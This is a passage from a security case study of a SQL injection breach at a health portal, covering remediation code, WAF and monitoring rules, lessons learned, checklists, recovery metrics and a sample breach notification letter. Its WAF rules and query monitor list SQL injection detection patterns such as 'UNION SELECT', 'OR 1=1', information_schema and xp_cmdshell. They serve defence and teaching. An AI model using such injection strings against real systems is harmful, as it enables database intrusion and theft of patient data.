CREATE EXTENSION IF NOT EXISTS pgcrypto;

-- Add encrypted columns
ALTER TABLE patients ADD COLUMN ssn_encrypted BYTEA;

-- Migrate existing data
UPDATE patients 
SET ssn_encrypted = pgp_sym_encrypt(ssn, 'encryption_key_from_vault')
WHERE ssn IS NOT NULL;

-- Drop plaintext column after verification
ALTER TABLE patients DROP COLUMN ssn;

-- Create secure view with decryption for authorized users only
CREATE VIEW patients_secure AS
SELECT 
    patient_id,
    first_name,
    last_name,
    date_of_birth,
    CASE 
        WHEN current_user IN (SELECT user_id FROM authorized_staff)
        THEN pgp_sym_decrypt(ssn_encrypted, 'encryption_key_from_vault')
        ELSE 'XXX-XX-' || RIGHT(pgp_sym_decrypt(ssn_encrypted, 'encryption_key_from_vault'), 4)
    END as ssn
FROM patients;
```

3. **Web Application Firewall (WAF)** (see [../network_security.md](../network_security.md))

```yaml
# WAF Rules (ModSecurity/AWS WAF)
rules:
  # Block SQL injection patterns
  - id: 1001
    description: "SQL Injection - UNION SELECT"
    pattern: "(?i)union.*select"
    action: block
    
  - id: 1002
    description: "SQL Injection - OR 1=1"
    pattern: "(?i)(or|and)\\s+['\"]?\\d+['\"]?\\s*=\\s*['\"]?\\d+['\"]?"
    action: block
    
  - id: 1003
    description: "SQL Injection - Comment sequences"
    pattern: "(--|#|/\\*|\\*/)"
    action: block
    
  - id: 1004
    description: "SQL Injection - Information schema"
    pattern: "(?i)information_schema"
    action: block
    
  # Rate limiting
  - id: 2001
    description: "Rate limit - Search endpoint"
    path: "/search"
    rate: 100 requests per 5 minutes
    action: block
    
  # Geo-blocking (if applicable)
  - id: 3001
    description: "Block high-risk countries"
    countries: ["CN", "RU", "KP"]
    action: block
```

4. **Enhanced Monitoring** (see [../monitoring_auditing.md](../monitoring_auditing.md))

```python
# Database Activity Monitoring
import logging
from datetime import datetime, timedelta

class DatabaseActivityMonitor:
    def __init__(self):
        self.anomaly_detector = AnomalyDetector()
        self.alert_service = AlertService()
    
    def monitor_query(self, query, user, ip_address):
        """Monitor and analyze database queries"""
        
        # Check for suspicious patterns
        if self.is_suspicious_query(query):
            self.alert_service.send_alert(
                severity='HIGH',
                message=f'Suspicious query detected from {user}@{ip_address}',
                details={'query': query}
            )
            # Block query execution
            raise SecurityException('Query blocked by security policy')
        
        # Log query for audit
        self.audit_log(query, user, ip_address)
        
        # Check for anomalies
        if self.anomaly_detector.is_anomalous(user, query):
            self.alert_service.send_alert(
                severity='MEDIUM',
                message=f'Anomalous activity detected for {user}',
                details={'query': query, 'ip': ip_address}
            )
    
    def is_suspicious_query(self, query):
        """Detect suspicious SQL patterns"""
        suspicious_patterns = [
            r'UNION\s+SELECT',
            r'information_schema',
            r'pg_catalog',
            r'pg_user',
            r'--',
            r'/\*',
            r'xp_cmdshell',
            r'EXEC\s*\(',
            r'DROP\s+TABLE',
            r'DELETE\s+FROM.*WHERE.*1=1'
        ]
        
        import re
        for pattern in suspicious_patterns:
            if re.search(pattern, query, re.IGNORECASE):
                return True
        return False
    
    def audit_log(self, query, user, ip_address):
        """Log all database access"""
        logging.info({
            'event': 'DATABASE_QUERY',
            'timestamp': datetime.utcnow().isoformat(),
            'user': user,
            'ip': ip_address,
            'query_hash': hash(query),  # Don't log full query for performance
            'query_type': self.get_query_type(query)
        })
    
    def get_query_type(self, query):
        """Classify query type"""
        query_upper = query.upper().strip()
        if query_upper.startswith('SELECT'):
            return 'SELECT'
        elif query_upper.startswith('INSERT'):
            return 'INSERT'
        elif query_upper.startswith('UPDATE'):
            return 'UPDATE'
        elif query_upper.startswith('DELETE'):
            return 'DELETE'
        else:
            return 'OTHER'
```

5. **Enhanced Authentication** (see [../authentication.md](../authentication.md))

```python
# Mandatory MFA for all admin accounts
from flask import session
import pyotp

class AuthenticationService:
    
    def require_mfa(self, user):
        """Enforce MFA for privileged accounts"""
        if user.is_admin or user.has_database_access:
            if not user.mfa_enabled:
                raise MFARequiredException('MFA must be enabled for this account')
            
            if not session.get('mfa_verified'):
                raise MFAVerificationRequiredException('MFA verification required')
    
    def verify_mfa(self, user, token):
        """Verify MFA token"""
        totp = pyotp.TOTP(user.mfa_secret)
        
        if not totp.verify(token, valid_window=1):
            self.audit_log('MFA_FAILURE', user.id)
            raise InvalidMFATokenException('Invalid MFA token')
        
        session['mfa_verified'] = True
        session['mfa_verified_at'] = datetime.utcnow()
        self.audit_log('MFA_SUCCESS', user.id)
    
    def enforce_strong_passwords(self, password):
        """Enhanced password policy"""
        import re
        
        if len(password) < 14:
            raise WeakPasswordException('Password must be at least 14 characters')
        
        # Check complexity
        checks = {
            'uppercase': r'[A-Z]',
            'lowercase': r'[a-z]',
            'digit': r'\d',
            'special': r'[!@#$%^&*(),.?":{}|<>]'
        }
        
        for check_name, pattern in checks.items():
            if not re.search(pattern, password):
                raise WeakPasswordException(f'Password must contain {check_name}')
        
        # Check against breached passwords
        if self.is_breached_password(password):
            raise WeakPasswordException('Password has been found in data breaches')
        
        return True
    
    def cleanup_dormant_accounts(self):
        """Disable accounts inactive for 90+ days"""
        cutoff_date = datetime.utcnow() - timedelta(days=90)
        
        dormant_accounts = User.query.filter(
            User.last_login < cutoff_date,
            User.is_active == True
        ).all()
        
        for user in dormant_accounts:
            user.is_active = False
            user.disabled_reason = 'Dormant account - inactive 90+ days'
            db.session.commit()
            
            self.audit_log('ACCOUNT_DISABLED', user.id, 'Dormant account cleanup')
            self.notify_user(user, 'Account disabled due to inactivity')
```

6. **Access Control Improvements** (see [../authorization.md](../authorization.md))

```python
# Implement Just-In-Time (JIT) Access
class PrivilegedAccessManager:
    
    def request_elevated_access(self, user, resource, duration_hours, justification):
        """Request temporary elevated access"""
        
        # Create access request
        request = AccessRequest(
            user_id=user.id,
            resource=resource,
            duration=duration_hours,
            justification=justification,
            status='PENDING'
        )
        db.session.add(request)
        db.session.commit()
        
        # Notify approvers
        self.notify_approvers(request)
        
        return request
    
    def grant_temporary_access(self, request_id, approver):
        """Grant time-limited elevated access"""
        request = AccessRequest.query.get(request_id)
        
        if not approver.can_approve_access:
            raise UnauthorizedException('Insufficient privileges to approve')
        
        # Grant access
        expiration = datetime.utcnow() + timedelta(hours=request.duration)
        access = TemporaryAccess(
            user_id=request.user_id,
            resource=request.resource,
            granted_by=approver.id,
            expires_at=expiration
        )
        db.session.add(access)
        
        request.status = 'APPROVED'
        db.session.commit()
        
        # Audit log
        self.audit_log('ACCESS_GRANTED', {
            'user': request.user_id,
            'resource': request.resource,
            'approver': approver.id,
            'expires': expiration
        })
        
        # Schedule automatic revocation
        self.schedule_access_revocation(access.id, expiration)
    
    def verify_access(self, user, resource):
        """Verify user has current access"""
        
        # Check permanent access
        if user.has_permission(resource):
            return True
        
        # Check temporary access
        temp_access = TemporaryAccess.query.filter(
            TemporaryAccess.user_id == user.id,
            TemporaryAccess.resource == resource,
            TemporaryAccess.expires_at > datetime.utcnow(),
            TemporaryAccess.revoked == False
        ).first()
        
        return temp_access is not None
    
    def conduct_access_review(self):
        """Quarterly access review"""
        
        # Get all privileged users
        privileged_users = User.query.filter(
            User.is_admin == True
        ).all()
        
        for user in privileged_users:
            # Create review task
            review = AccessReview(
                user_id=user.id,
                reviewer_id=user.manager_id,
                due_date=datetime.utcnow() + timedelta(days=14),
                status='PENDING'
            )
            db.session.add(review)
            
            # Notify manager
            self.notify_manager(user.manager_id, review)
        
        db.session.commit()
```

### Long-term Strategic Improvements (2 weeks - 6 months)



**1. Organizational Changes**

**Security Leadership**:
- Hired Chief Information Security Officer (CISO)
- CISO reports directly to CEO
- Board-level security committee established
- Quarterly security reviews with Board

**Team Expansion**:
- Security team expanded from 2 to 15 people
- Dedicated teams:
  - Application Security (4 engineers)
  - Security Operations (5 analysts)
  - GRC (Governance, Risk, Compliance) (3 specialists)
  - Incident Response (3 specialists)

**Security Budget**:
- Increased from 0.5% to 12% of IT budget
- $4.5 million annual security budget
- Dedicated budget for:
  - Tools and technology
  - Training and certifications
  - External assessments
  - Bug bounty program

**2. Technical Infrastructure**

**Security Information and Event Management (SIEM)**:
```yaml
# SIEM Implementation (Splunk/ELK)
data_sources:
  - application_logs
  - database_logs
  - firewall_logs
  - waf_logs
  - authentication_logs
  - cloud_audit_logs

correlation_rules:
  - name: "Suspicious Database Access"
    conditions:
      - multiple_failed_logins AND successful_login
      - unusual_query_patterns
      - large_data_export
    severity: HIGH
    action: alert_and_block
    
  - name: "Potential Data Exfiltration"
    conditions:
      - large_data_transfer
      - off_hours_activity
      - unusual_destination
    severity: CRITICAL
    action: alert_and_investigate
    
  - name: "SQL Injection Attempt"
    conditions:
      - sql_keywords_in_params
      - waf_block
    severity: HIGH
    action: alert_and_block_ip

dashboards:
  - Security Operations Center (SOC) Dashboard
  - Executive Security Dashboard
  - Compliance Dashboard
  - Incident Response Dashboard
```

**Data Loss Prevention (DLP)**:
```python
# DLP Implementation
class DataLossPrevention:
    
    def scan_outbound_traffic(self, data, destination):
        """Scan for sensitive data in outbound traffic"""
        
        # Detect patterns
        ssn_pattern = r'\d{3}-\d{2}-\d{4}'
        medical_record_pattern = r'MRN\d{8}'
        
        import re
        
        # Check for PHI
        if re.search(ssn_pattern, data):
            self.alert('SSN detected in outbound traffic', 'CRITICAL')
            return False
        
        if re.search(medical_record_pattern, data):
            self.alert('Medical record number detected', 'HIGH')
            return False
        
        # Check for bulk data transfer
        if len(data) > 10_000_000:  # 10MB
            self.alert('Large data transfer detected', 'MEDIUM')
            self.require_approval()
        
        return True
    
    def monitor_database_exports(self):
        """Monitor large database queries"""
        
        # Get recent large queries
        large_queries = """
            SELECT query, usename, query_start, 
                   pg_stat_statements.total_time
            FROM pg_stat_statements
            JOIN pg_user ON pg_stat_statements.userid = pg_user.usesysid
            WHERE total_time > 10000  -- 10 seconds
              AND query_start > NOW() - INTERVAL '1 hour'
            ORDER BY total_time DESC
        """
        
        results = execute_query(large_queries)
        
        for row in results:
            # Analyze query for bulk export
            if 'SELECT *' in row['query'] or 'LIMIT' not in row['query']:
                self.alert(f'Potential bulk export by {row["usename"]}', 'HIGH')
```

**Zero Trust Architecture** (see [../network_security.md](../network_security.md)):
```mermaid
graph TD
    A[User/Device] -->|Identity Verification| B[Identity Provider]
    B -->|Token| C[Policy Engine]
    C -->|Risk Assessment| D{Allow Access?}
    D -->|Yes| E[Policy Enforcement Point]
    D -->|No| F[Deny & Alert]
    E -->|Encrypted Connection| G[Resource]
    
    H[Continuous Monitoring] -.->|Context| C
    I[Device Posture] -.->|Health Check| C
    J[User Behavior Analytics| -.->|Risk Score| C
```

**Principles**:
- Never trust, always verify
- Assume breach mentality
- Verify explicitly (device, user, location, etc.)
- Use least privilege access
- Segment access (microsegmentation)
- Log everything

**3. Process Improvements**

**Secure Software Development Lifecycle (SSDLC)** (see [../best_practises.md](../best_practises.md)):



**Security Gates**:
- Requirements: Security requirements defined
- Design: Threat model completed and reviewed
- Development: SAST scans passed, code review completed
- Testing: DAST scans passed, security tests passed
- Deployment: Security configuration validated
- Operations: Monitoring and alerting configured

**Vulnerability Management Program**:
```yaml
vulnerability_management:
  scanning:
    frequency: weekly
    tools:
      - network_scanner: Nessus
      - web_scanner: Burp Suite
      - container_scanner: Trivy
      - dependency_scanner: Snyk
      
  prioritization:
    critical: fix within 24 hours
    high: fix within 7 days
    medium: fix within 30 days
    low: fix within 90 days
    
  exceptions:
    process:
      - documented justification required
      - compensating controls identified
      - risk acceptance by CISO
      - quarterly review
      
  metrics:
    - mean_time_to_detect (MTTD)
    - mean_time_to_remediate (MTTR)
    - vulnerability_backlog
    - exception_count
```

**Incident Response Plan**:



**Incident Response Team Structure**:
- Incident Commander (CISO)
- Technical Lead (Security Engineering Manager)
- Communications Lead (PR/Legal)
- Subject Matter Experts (as needed)

**Playbooks Developed**:
- SQL Injection Response
- Data Exfiltration Response
- Ransomware Response (see [case3_ransomware.md](case3_ransomware.md))
- Insider Threat Response
- DDoS Response
- Account Compromise Response

**4. Compliance and Governance**

**Enhanced Compliance Program** (see [../compliance.md](../compliance.md)):

```mermaid
graph TD
    A[Compliance Program] --> B[Policies & Procedures]
    A --> C[Risk Assessment]
    A --> D[Training]
    A --> E[Monitoring]
    A --> F[Auditing]
    
    B --> B1[46 Security Policies]
    B --> B2[120 Procedures]
    B --> B3[Quarterly Reviews]
    
    C --> C1[Annual Enterprise Risk Assessment]
    C --> C2[Quarterly Application Risk Assessments]
    C --> C3[Continuous Vulnerability Assessments]
    
    D --> D1[Security Awareness - All Staff]
    D --> D2[Secure Coding - Developers]
    D --> D3[HIPAA Training - All Staff]
    
    E --> E1[SIEM Monitoring]
    E --> E2[Compliance Dashboards]
    E --> E3[Continuous Control Monitoring]
    
    F --> F1[Internal Audits - Quarterly]
    F --> F2[External Audits - Annual]
    F --> F3[Penetration Testing - Quarterly]
```

**Risk Management**:
- Enterprise Risk Management (ERM) framework adopted
- Risk register maintained with 200+ identified risks
- Quarterly risk reviews with executive team
- Board-level risk reporting

**Third-Party Risk Management**:
- Vendor security assessment program
- Security requirements in all contracts
- Annual vendor audits
- Business continuity requirements

---

## Lessons Learned

### What Went Well ✅

1. **External Discovery**
   - IdentityGuard's dark web monitoring provided early warning
   - Faster than internal detection would have been

2. **Incident Response Mobilization**
   - Quick team assembly
   - Clear communication to leadership
   - Effective use of external experts

3. **Regulatory Compliance**
   - Met HIPAA notification deadlines
   - Proactive communication with regulators
   - Comprehensive breach documentation

4. **Patient Communication**
   - Clear, transparent messaging
   - Multiple notification channels
   - Robust call center support
   - Generous credit monitoring offering

### What Didn't Go Well ❌

1. **Prevention**
   - SQL injection should have been prevented
   - No input validation
   - Legacy code not refactored
   - Previous pen test findings not addressed

2. **Detection**
   - 47-day dwell time unacceptable
   - No database activity monitoring
   - Anomalies not detected
   - Relied on external notification

3. **Security Posture**
   - Underfunded security program
   - Inadequate security team
   - Poor security culture
   - Compliance-focused, not security-focused

4. **Access Management**
   - Dormant accounts not disabled
   - No regular access reviews
   - Weak credentials allowed
   - No MFA enforcement

5. **Architecture**
   - Overly permissive database access
   - No data encryption at rest
   - No network segmentation
   - Direct database access from application

### Critical Lessons



**Key Takeaways**:

1. **Input validation is non-negotiable**
   - Always use parameterized queries
   - Never trust user input
   - Implement WAF as defense in depth
   - Regular security testing

2. **Monitoring saves lives (and data)**
   - Database activity monitoring essential
   - SIEM for correlation and detection
   - Anomaly detection catches what rules miss
   - Can't respond to what you don't see

3. **Encryption protects data at rest** (see [../encryption.md](../encryption.md))
   - Even if database compromised, encrypted data protected
   - Field-level encryption for sensitive fields
   - Proper key management critical

4. **Access management matters**
   - Disable dormant accounts
   - Regular access reviews
   - Enforce MFA for privileged accounts
   - Implement least privilege

5. **Security requires investment**
   - Can't security on a shoestring budget
   - Leadership support essential
   - Security is everyone's responsibility
   - Cost of breach far exceeds cost of prevention

6. **Compliance ≠ Security** (see [../compliance.md](../compliance.md))
   - SOC 2 Type I doesn't guarantee security
   - Continuous monitoring required
   - Check-box compliance insufficient
   - Security must go beyond minimum requirements

---

## Prevention Strategies

### Comprehensive Security Checklist

#### Application Security (see [../application_security.md](../application_security.md))

**Input Validation**:
- [ ] All user input validated
- [ ] Parameterized queries used exclusively
- [ ] Input length limits enforced
- [ ] Special characters handled properly
- [ ] Output encoding implemented
- [ ] Content Security Policy (CSP) deployed

**Code Security**:
- [ ] SAST tools in CI/CD pipeline
- [ ] Mandatory security code reviews
- [ ] Secure coding standards documented
- [ ] Regular security training for developers
- [ ] Third-party library vulnerability scanning
- [ ] No hardcoded credentials

**Web Application Security**:
- [ ] WAF deployed and configured
- [ ] HTTPS everywhere (HSTS enabled)
- [ ] Security headers configured
- [ ] CSRF protection implemented
- [ ] XSS protection enabled
- [ ] SQL injection protection

#### Database Security (see [../data_security.md](../data_security.md))

**Access Control**:
- [ ] Least privilege database accounts
- [ ] No shared credentials
- [ ] Regular access reviews
- [ ] JIT access for privileged operations
- [ ] Database activity monitoring
- [ ] Failed login alerting

**Data Protection**:
- [ ] Encryption at rest (AES-256)
- [ ] Encryption in transit (TLS 1.3)
- [ ] Field-level encryption for PHI/PII
- [ ] Data masking for non-production
- [ ] Secure backup encryption
- [ ] Key management solution

**Database Hardening**:
- [ ] Default accounts disabled
- [ ] Unnecessary features disabled
- [ ] Network access restricted
- [ ] Row-level security implemented
- [ ] Audit logging enabled
- [ ] Regular security patches

#### Network Security (see [../network_security.md](../network_security.md))

**Network Segmentation**:
- [ ] Database in isolated network segment
- [ ] Firewall rules limiting database access
- [ ] No direct internet access to database
- [ ] Jump boxes for admin access
- [ ] VPN required for remote access
- [ ] Microsegmentation implemented

**Monitoring and Detection**:
- [ ] Network traffic monitoring
- [ ] IDS/IPS deployed
- [ ] Anomaly detection configured
- [ ] DLP solution implemented
- [ ] DNS monitoring
- [ ] Threat intelligence integration

#### Identity and Access Management (see [../authentication.md](../authentication.md), [../authorization.md](../authorization.md))

**Authentication**:
- [ ] MFA required for all users
- [ ] Phishing-resistant MFA for admins
- [ ] Strong password policy (14+ characters)
- [ ] Password breach checking
- [ ] Account lockout after failed attempts
- [ ] Session management and timeouts

**Authorization**:
- [ ] Role-Based Access Control (RBAC)
- [ ] Principle of least privilege
- [ ] Quarterly access reviews
- [ ] Automated dormant account cleanup
- [ ] Privileged Access Management (PAM)
- [ ] Just-In-Time (JIT) access

#### Monitoring and Response (see [../monitoring_auditing.md](../monitoring_auditing.md))

**Logging and Monitoring**:
- [ ] Centralized log aggregation
- [ ] SIEM solution deployed
- [ ] Real-time alerting configured
- [ ] Database query logging
- [ ] Authentication logging
- [ ] Data access logging

**Incident Response**:
- [ ] IR plan documented and tested
- [ ] IR team identified and trained
- [ ] Playbooks for common scenarios
- [ ] Regular tabletop exercises
- [ ] Evidence preservation procedures
- [ ] Communication templates prepared

### Architectural Best Practices

**Defense in Depth**:


**Layers of Security**:
1. **Perimeter**: WAF, DDoS protection
2. **Network**: Firewalls, IDS/IPS, segmentation
3. **Application**: Input validation, authentication, authorization
4. **Data**: Encryption, access controls, masking
5. **Monitoring**: SIEM, DLP, database monitoring

---

## Related Documentation

### Internal References
- [Application Security](../application_security.md) - Secure coding and SDLC
- [Data Security](../data_security.md) - Data protection strategies
- [Encryption](../encryption.md) - Cryptographic controls
- [Authentication](../authentication.md) - Identity verification
- [Authorization](../authorization.md) - Access control
- [Network Security](../network_security.md) - Network protection
- [Monitoring & Auditing](../monitoring_auditing.md) - Detection and logging
- [Best Practices](../best_practises.md) - Security best practices
- [Compliance](../compliance.md) - HIPAA, GDPR, regulatory requirements

### Related Case Studies
- [Case 1: OAuth Token Leak](case1_oauth_leak.md) - Authentication vulnerability
- [Case 3: Ransomware Attack](case3_ransomware.md) - Ransomware incident

### External Resources
- **OWASP Top 10**: https://owasp.org/www-project-top-ten/
- **OWASP SQL Injection Prevention**: https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- **CIS Database Security Benchmarks**: https://www.cisecurity.org/
- **NIST Cybersecurity Framework**: https://www.nist.gov/cyberframework
- **HHS HIPAA Security Rule**: https://www.hhs.gov/hipaa/for-professionals/security/
- **PCI-DSS Requirements**: https://www.pcisecuritystandards.org/

---

## Conclusion

The HealthPortal data breach demonstrates how multiple security failures can combine to create catastrophic outcomes. The incident cost $18.7 million, affected 2.5 million patients, and resulted in significant regulatory penalties and reputational damage.

**Critical Success Factors for Prevention**:

1. **Secure by Design**: Build security into applications from the start
2. **Defense in Depth**: Multiple layers of security controls
3. **Continuous Monitoring**: Detect anomalies before they become breaches
4. **Investment in Security**: Adequate resources for people, process, and technology
5. **Security Culture**: Everyone responsible for security, not just security team
6. **Compliance Plus**: Go beyond minimum compliance requirements
7. **Continuous Improvement**: Regular assessments, testing, and updates

**The Cost of Inaction**:

The breach cost HealthPortal $18.7 million, but the preventive measures would have cost approximately $2 million:
- WAF deployment: $200,000
- SIEM implementation: $500,000
- Database encryption: $300,000
- Security team expansion: $800,000 (annual)
- Training and awareness: $100,000
- Penetration testing: $100,000

**ROI of Security Investment**: 9.35x

More importantly, the reputational damage, loss of trust, and patient harm cannot be measured in dollars alone.

---

## Post-Incident Metrics

### Security Improvements Measured

**Before Breach vs. After Remediation**:

| Metric | Before | After | Improvement |
|--------|--------|-------|-------------|
| Security budget (% of IT) | 0.5% | 12% | 24x increase |
| Security team size | 2 | 15 | 7.5x increase |
| MTTD (Mean Time to Detect) | 47 days | < 1 hour | 99.9% improvement |
| MTTR (Mean Time to Respond) | N/A | < 4 hours | N/A |
| Vulnerability backlog | Unknown | 23 | Tracked |
| Critical vulnerabilities | Unknown | 0 | 100% remediated |
| Code security scans | 0/year | 5,000+/month | Continuous |
| Penetration tests | 1/year | 4/year | 4x increase |
| Security training completion | 15% | 98% | 6.5x increase |
| MFA adoption (admins) | 38/42 (90%) | 52/52 (100%) | 100% enforcement |
| Dormant accounts | Unknown | 0 | All disabled |
| Database queries monitored | 0% | 100% | Full coverage |
| Encrypted fields | 0 | 142 | All PHI encrypted |

### Compliance Improvements

**Audit Results**:

| Audit Type | Before Breach | 6 Months Post | 12 Months Post |
|-----------|---------------|---------------|----------------|
| HIPAA Security Rule | 12 deficiencies | 3 deficiencies | 0 deficiencies |
| SOC 2 Type II | Not achieved | In progress | Achieved |
| PCI-DSS | Not applicable | Not applicable | Not applicable |
| ISO 27001 | Not pursued | In progress | Certification obtained |
| State regulations | 8 violations | 1 violation | 0 violations |

### Business Recovery

**Market Impact Recovery**:

```mermaid
plot
    title: Stock Price Recovery
    x-axis: ["Pre-breach", "1 week", "1 month", "3 months", "6 months", "12 months"]
    y-axis: [0, 120]
    series:
      "Stock Price": [100, 68, 72, 85, 94, 108]
```

**Customer Metrics**:

| Metric | 1 Month | 3 Months | 6 Months | 12 Months |
|--------|---------|----------|----------|-----------|
| Active users (% of pre-breach) | 85% | 88% | 92% | 97% |
| New user signups | -45% | -32% | -18% | +5% |
| Customer satisfaction | 3.2/5 | 3.8/5 | 4.1/5 | 4.3/5 |
| Net Promoter Score (NPS) | -15 | 5 | 22 | 35 |
| Trust score | 33/100 | 48/100 | 62/100 | 71/100 |

---

## Stakeholder Communications

### Sample Patient Notification Letter

```
Subject: Important Security Notice Regarding Your HealthPortal Account

Dear [Patient Name],

We are writing to inform you of a data security incident that may have affected your personal and health information.

WHAT HAPPENED
On August 22, 2024, we learned that an unauthorized party gained access to our systems and obtained patient information. We immediately launched an investigation with leading cybersecurity experts and notified law enforcement.

WHAT INFORMATION WAS INVOLVED
The information that may have been accessed includes:
• Name, address, and date of birth
• Social Security number
• Medical record number
• Medical history and diagnoses
• Prescription information
• Insurance information

WHAT WE ARE DOING
We have taken the following immediate actions:
• Eliminated the vulnerability that allowed this access
• Implemented additional security measures
• Enhanced our monitoring systems
• Engaged leading cybersecurity experts
• Notified appropriate regulatory authorities

WHAT YOU CAN DO
We are offering you complimentary credit monitoring and identity theft protection services for three years. To enroll:
1. Visit: www.healthportal-breach-response.com
2. Enter enrollment code: [UNIQUE CODE]
3. Complete enrollment by [DATE]

We also recommend you:
• Monitor your medical and financial accounts
• Review your credit reports
• Consider placing a fraud alert or credit freeze
• Review the enclosed "Steps to Protect Your Information" guide

FOR MORE INFORMATION
• Dedicated hotline: 1-800-XXX-XXXX (24/7)
• Website: www.healthportal-breach-response.com
• Email: breach-response@healthportal.com

We sincerely apologize for this incident and any concern it may cause. Protecting your information is our highest priority, and we are committed to regaining your trust.

Sincerely,

[CEO Name]
Chief Executive Officer
HealthPortal Inc.

Enclosures:
- Steps to Protect Your Information
- Credit Monitoring Enrollment Instructions
- Frequently Asked Questions
```

### Executive Communication Template

```
